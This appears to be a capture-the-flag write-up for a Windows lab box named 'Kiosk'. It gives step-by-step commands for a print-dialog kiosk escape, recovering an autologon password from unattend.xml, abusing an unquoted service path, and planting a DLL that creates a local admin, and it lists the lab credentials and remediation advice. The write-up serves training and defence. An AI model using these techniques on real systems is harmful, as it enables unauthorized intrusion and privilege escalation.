




HackSmarter · Windows · Medium
Kiosk: print escape, unattend, unquoted path, DLL plant
Authorized lab only. Lab author: Ryan Yager. Live work 2026-08-07.
| Box | Kiosk |
| Platform | HackSmarter (DEFCON free access) |
| Type | Windows VDI kiosk escape and service abuse |
| Fault | Print dialog escape, unattend autologon, unquoted service path, DLL load |
| Level | Medium |
| Target | 10.1.172.141 host EC2AMAZ-0536LUM |
| Start user | vdiuser / VDI@DH2024! |
| svcuser | Svc_DH!2024 (from unattend UTF-16LE base64) |
What you need to know
- RDP into a locked HTA / workspace kiosk
- Print dialog paths that open a real file dialog
- Windows
unattend.xmlautologon secrets - Unquoted service paths and writable DLL load paths
Main idea
Escape the kiosk with the print dialog. Read unattend for the next user. Abuse an unquoted service path and a healthcheck DLL load to reach admin.
vdiuser RDP kiosk (portal hands same creds) → Ctrl+P → Find Printer… → cmd / explorer → flag1 + unattend.xml → svcuser / Svc_DH!2024 → unquoted DH_KioskMonitor → plant DH.exe → healthcheck loads dhlog.dll → local admin → WinRM → flag3 + flag4


Step 1: Prove ports and passwords
Why: Confirm the host is on and the handed password works.
nmap -Pn -n -p 80,445,3389,5985,8443 --open 10.1.172.141 nxc smb 10.1.172.141 -u vdiuser -p 'VDI@DH2024!' nxc rdp 10.1.172.141 -u vdiuser -p 'VDI@DH2024!' # also after unattend: nxc smb 10.1.172.141 -u svcuser -p 'Svc_DH!2024' nxc rdp 10.1.172.141 -u svcuser -p 'Svc_DH!2024' # Pwn3d!
Live: 80, 445, 3389, 5985, 8443 open. Both accounts authenticate on SMB and RDP.
Portal on 8443 accepts the same VDI creds and shows the RDP hint:
curl -sk -c c.ck -d 'username=vdiuser&password=VDI%40DH2024!' \ -X POST https://10.1.172.141:8443/login.asp -D - # → 302 portal.asp # Connect hint: xfreerdp3 /v:10.1.172.141 /u:vdiuser /p:'VDI@DH2024!' /sec:rdp /cert-ignore # (NLA is actually required on the live host; use /sec:nla + /cert:ignore)

Step 2: Kiosk escape with print dialog
Why: The kiosk blocks a normal shell. Print → Find Printer still opens a file dialog that can start programs.
xfreerdp3 /v:10.1.172.141 /u:vdiuser /p:'VDI@DH2024!' /cert:ignore \ /sec:nla /size:1280x800 +clipboard +grab-keyboard # Inside kiosk (ignore Script Error dialog): # Ctrl+P → Find Printer… → open C:\Windows\System32\cmd.exe # (or explorer.exe, then navigate)




Step 3: Flag 1 and unattend
Why: First flag is under VDI data. Autologon password opens the next account.
type C:\VDIData\flag1.txt
type C:\Windows\Panther\unattend.xml
# Autologon:
# Username: svcuser
# Password Value: UwB2AGMAXwBEAEgAIQAyADAAMgA0AA== (UTF-16LE base64)
# → Svc_DH!2024
python3 -c "import base64; print(base64.b64decode('UwB2AGMAXwBEAEgAIQAyADAAMgA0AA==').decode('utf-16-le'))"
Flag 1 path: C:\VDIData\flag1.txt
svcuser password: Svc_DH!2024
# optional: kiosk.ini also leaks internal service passwords type C:\KioskData\kiosk.ini # svc_monitoring / sql_svc (internal, not the main PE path)
Step 4: svcuser and flag 2
Why: svcuser has a cleaner session and write rights for the service path.
runas /user:svcuser powershell # password: Svc_DH!2024 type C:\Users\svcuser\Desktop\flag2.txt # or RDP (live Pwn3d!): xfreerdp3 /v:10.1.172.141 /u:svcuser /p:'Svc_DH!2024' /cert:ignore /sec:nla
Flag 2 path: C:\Users\svcuser\Desktop\flag2.txt
Step 5: Unquoted service path
Why: Space in the path without quotes lets Windows run a planted
DH.exe first as dh_admin.sc qc DH_KioskMonitor # BINARY_PATH_NAME: # C:\Program Files\Darkhaven Kiosk Services\DH Monitor Service\monitor.exe # SERVICE_START_NAME: .\dh_admin # Plant: C:\Program Files\Darkhaven Kiosk Services\DH.exe # Stage 1 — dump healthcheck log as dh_admin: # (compile on box with csc, or upload) sc start DH_KioskMonitor type C:\Users\Public\out.txt # → Checking for plugin: C:\DarkhavenTools\logs\dhlog.dll
Operator payloads: ~/kiosk/payloads/ (svc_stage1.cs, svc_stage2.cs, dhlog.dll).
# Stage 2 — plant dhlog.dll that adds a local admin, e.g. pwned / Password123! # then wait for healthcheck cycle
Step 6: Admin and flags 3 and 4
Why: After the DLL plant creates a local admin, take the last flags over WinRM.
evil-winrm -i 10.1.172.141 -u pwned -p 'Password123!' type C:\Users\dh_admin\Desktop\flag3.txt type C:\Users\Administrator\Desktop\flag4.txt
Flag 3 path: C:\Users\dh_admin\Desktop\flag3.txt
Flag 4 path: C:\Users\Administrator\Desktop\flag4.txt
Password chain
vdiuser / VDI@DH2024! handed start (portal + RDP) svcuser / Svc_DH!2024 unattend autologon dh_admin service account (unquoted path) local admin after DLL operator plant (e.g. pwned)
Impact
- Kiosk breakout to cmd
- Clear autologon password on disk
- Service misconfig to local admin
Fix
- Lock print and file dialogs in the kiosk profile. Use AppLocker or WDAC.
- Remove plain autologon secrets from Panther. Use LAPS or vaulted secrets.
- Quote every service binary path. Harden ACL on Program Files trees.
- Do not load writable DLL paths from services. Alert on new local admins.
Close
Kiosk is print escape, then classic Windows PE. Live RDP, portal login, and both start credentials were confirmed on 10.1.172.141.